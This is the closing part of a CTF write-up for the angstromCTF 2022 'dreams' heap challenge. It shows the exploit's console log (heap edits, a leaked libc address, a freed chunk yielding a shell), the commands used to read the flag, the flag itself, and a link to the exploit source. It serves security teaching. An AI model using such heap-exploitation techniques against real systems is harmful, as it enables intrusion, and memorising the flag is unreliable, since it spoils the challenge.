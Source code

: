 ```
[*] Malloc [14] = 0x41 b'A'
[+] Arbitrary read write init done
[*] Edit [13] = 0x404010
[*] Edit [12] = b'A'
[+] Libc base address leakded: 0x7FED27F88000
[*] Edit [13] = 0x7FED28176E48
[*] Edit [12] = 0x7FED27FDA2C0
[*] Free [15]
[*] Switching to interactive mode
You let it go. Suddenly you feel less burdened... less restrained... freed. At last.
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
actf{hav3_you_4ny_dreams_y0u'd_like_to_s3ll?_cb72f5211336}
$
```

Thank you for your attention, and sorry for my English.

[Exploit source code](https://github.com/TomasGlgg/CTF-Writeups/blob/master/angstromCTF%202022/dreams/exploit.py)